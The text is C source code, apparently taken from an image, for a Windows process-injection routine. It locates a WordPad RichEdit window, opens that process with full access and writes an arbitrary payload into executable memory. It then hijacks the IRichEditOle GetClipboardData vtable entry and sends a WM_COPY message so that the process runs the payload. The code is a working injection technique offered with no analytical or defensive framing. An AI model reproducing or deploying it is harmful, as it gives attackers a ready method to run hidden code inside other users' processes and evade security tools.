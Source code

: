 ```
VOID oleum(LPVOID payload, DWORD payloadSize) {
    HANDLE                hp;
    DWORD                 id;
    HWND                  rew;
    LPVOID                cs, ds, ptr, mem, tbl;
    SIZE_T                rd, wr;
    _IRichEditOle         reo;
   
    // 1. Get the window handle
    rew = FindWindow(L"WordPadClass", NULL);
    rew = FindWindowEx(rew, NULL, L"RICHEDIT50W", NULL);
   
    // 2. Obtain the process id and try to open process
    GetWindowThreadProcessId(rew, &id);
    hp = OpenProcess(PROCESS_ALL_ACCESS, FALSE, id);
 
    // 3. Allocate RWX memory and copy the payload there
    cs = VirtualAllocEx(hp, NULL, payloadSize,
      MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
     
    WriteProcessMemory(hp, cs, payload, payloadSize, &wr);
   
    // 4. Allocate RW memory for the current address
    ptr = VirtualAllocEx(hp, NULL, sizeof(ULONG_PTR),
      MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
     
    // 5. Query the interface
    SendMessage(rew, EM_GETOLEINTERFACE, 0, (LPARAM)ptr);
   
    // 6. Read the memory address
    ReadProcessMemory(hp, ptr, &mem, sizeof(ULONG_PTR), &wr);
 
    // 7. Read IRichEditOle.lpVtbl
    ReadProcessMemory(hp, mem, &tbl, sizeof(ULONG_PTR), &wr);
 
    // 8. Read virtual function table
    ReadProcessMemory(hp, tbl, &reo, sizeof(_IRichEditOle), &wr);
 
    // 9. Allocate memory for copy of virtual table
    ds = VirtualAllocEx(hp, NULL, sizeof(_IRichEditOle),
      MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
     
    // 10. Set the GetClipboardData method to address of payload
    reo.GetClipboardData = (ULONG_PTR)cs;
   
    // 11. Write new virtual function table to remote memory
    WriteProcessMemory(hp, ds, &reo, sizeof(_IRichEditOle), &wr);
   
    // 12. update IRichEditOle.lpVtbl
    WriteProcessMemory(hp, mem, &ds, sizeof(ULONG_PTR), &wr);
   
    // 13. Trigger payload by invoking the GetClipboardData method
    PostMessage(rew, WM_COPY, 0, 0);
   
    // 14. Restore original value of IRichEditOle.lpVtbl
    WriteProcessMemory(hp, mem, &tbl, sizeof(ULONG_PTR), &wr);
   
    // 15. Free memory and close process handle
    VirtualFreeEx(hp, ptr,0, MEM_DECOMMIT | MEM_RELEASE);
    VirtualFreeEx(hp, cs, 0, MEM_DECOMMIT | MEM_RELEASE);
    VirtualFreeEx(hp, ds, 0, MEM_DECOMMIT | MEM_RELEASE);
   
    CloseHandle(hp);  
```